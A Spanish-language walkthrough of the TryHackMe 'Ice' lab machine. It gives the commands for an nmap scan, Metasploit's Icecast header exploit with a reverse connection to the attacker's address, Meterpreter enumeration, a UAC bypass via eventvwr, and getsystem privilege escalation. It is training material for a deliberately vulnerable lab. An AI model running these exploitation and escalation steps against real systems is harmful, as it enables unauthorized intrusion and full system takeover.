









### **Tutorial: Explotación de la máquina Ice en TryHackMe**

## 1. Conexión a la VPN de TryHackMe

Para poder acceder a las máquinas del laboratorio es necesario conectarse primero a la VPN de TryHackMe. Esto crea un túnel cifrado entre la máquina Kali y la red privada del laboratorio.

### 1.1 Conexión mediante OpenVPN

Desde la terminal de Kali ejecutamos el siguiente comando utilizando el archivo `.ovpn` descargado desde la plataforma:

```bash
sudo openvpn /home/nerea/Descargas/eu-central-1-nereacandonramos-regular.ovpn
```
Si la conexión se establece correctamente, en la terminal aparecerá el mensaje:

```bash
Initialization Sequence Completed
```
Este mensaje indica que el túnel VPN se ha creado correctamente.

### 1.2 Verificación de la conexión

Una vez establecida la VPN, se debe comprobar que se ha creado la interfaz de red correspondiente.

Para ello ejecutamos:

```bash
ip a
```

## 2. Identificación de la máquina objetivo

Una vez conectados a la VPN, la plataforma TryHackMe proporciona la dirección IP de la máquina vulnerable.

En este caso la IP asignada es:

```bash
10.113.134.75
```
Esta dirección pertenece a la red privada del laboratorio y solo es accesible a través de la VPN.

## 3. Escaneo de puertos con Nmap

El siguiente paso consiste en identificar los servicios expuestos en la máquina objetivo.

```bash
nmap -sC -sV 10.113.134.75
```


Este escaneo permite descubrir puertos abiertos y versiones de servicios.

## 4. Explotación del servicio Icecast

Durante el escaneo con Nmap se identifica que el puerto 8000 está abierto y ejecuta el servicio Icecast, una aplicación utilizada para streaming de audio.

Este servicio tiene una vulnerabilidad conocida que puede explotarse utilizando Metasploit.

### 4.1 Iniciar Metasploit

Primero inicio el framework Metasploit desde la terminal de Kali:

```bash
msfconsole
```


Una vez cargado el entorno de Metasploit, busco exploits relacionados con Icecast:

```bash
search icecast
```

El resultado muestra el siguiente módulo vulnerable:

```bash
exploit/windows/http/icecast_header
```


### 4.2 Cargar el exploit

Cargo el exploit utilizando su índice o su ruta completa:

```bash
use exploit/windows/http/icecast_header
```

Después configuro la dirección IP de la máquina víctima:

```bash
set RHOSTS 10.113.134.75
```

También configuro mi dirección IP de la VPN para recibir la conexión inversa:

```bash
set LHOST 192.168.177.226
```

Verifico que todo esté configurado correctamente:

```bash
show options
```



## 5. Ejecución del exploit

Una vez configurados los parámetros, ejecuto el exploit:

```bash
run
```


Si la explotación tiene éxito, Metasploit abre una sesión Meterpreter, que permite interactuar con el sistema comprometido.

## 6. Obtención de acceso inicial

Después de ejecutar el exploit obtengo una sesión **Meterpreter**.

Para comprobar información del sistema utilizo:

```bash
sysinfo
```
Este comando muestra información relevante del sistema comprometido, como:

- Sistema operativo

- Arquitectura

- Nombre del equipo

También verifico el usuario con el que estoy conectado:

```bash
getuid
```

El resultado muestra que estoy conectado como:

```bash
Dark-PC\Dark
```
Esto indica que tengo acceso al sistema, pero aún no tengo privilegios máximos.



## 7. Enumeración de procesos

Para identificar procesos activos en el sistema utilizo:

```bash
ps
```



Este comando muestra todos los procesos en ejecución junto con su PID, arquitectura, usuario y ruta.

Esta información es útil para entender qué aplicaciones se están ejecutando en el sistema y para decidir a qué proceso migrar en caso de necesitar una sesión más estable.

## 8. Escalada de privilegios

Para intentar obtener privilegios más altos utilizo el comando:

```bash
getsystem
```


Este comando intenta varias técnicas automáticas de escalada de privilegios dentro de Meterpreter para obtener acceso como SYSTEM.

## 9. Búsqueda de vulnerabilidades locales

Para identificar posibles métodos adicionales de escalada de privilegios utilizo el módulo Local Exploit Suggester de Metasploit.

Primero cargo el módulo:

```bash
use post/multi/recon/local_exploit_suggester
```

Después indico la sesión que quiero analizar:

```bash
set SESSION 1
```

Ejecuto el módulo:
```bash
run
```


Este módulo analiza el sistema comprometido y sugiere exploits locales que podrían funcionar según la versión de Windows y la configuración del sistema.

## 10. Escalada de privilegios mediante Bypass UAC

Entre los exploits sugeridos aparece:

```bash
exploit/windows/local/bypassuac_eventvwr
```


Este exploit permite evadir el Control de Cuentas de Usuario (UAC) para ejecutar código con privilegios elevados.

Cargo el exploit:
```bash
use exploit/windows/local/bypassuac_eventvwr
```

Configuro la sesión comprometida:
```bash
set SESSION 1
```
También configuro mi dirección IP de la VPN para recibir la conexión inversa:
```bash
set LHOST 192.168.177.226
```
Compruebo que la configuración sea correcta:
```bash
show options
```


Finalmente ejecuto el exploit:
```bash
run
```



Si el exploit se ejecuta correctamente, Metasploit crea una nueva sesión Meterpreter.

## 11. Acceso a la nueva sesión

Metasploit muestra la creación de una nueva sesión:

```bash
Meterpreter session 4 opened
```

Para interactuar con ella utilizo:
```bash
sessions -i 4
```

Después verifico el usuario actual:

```bash
getuid
```

También reviso información del sistema:

```bash
sysinfo
```

Utilicé el comando getsystem para escalar a privilegios del sistema máximo.

```bash
getsystem
```


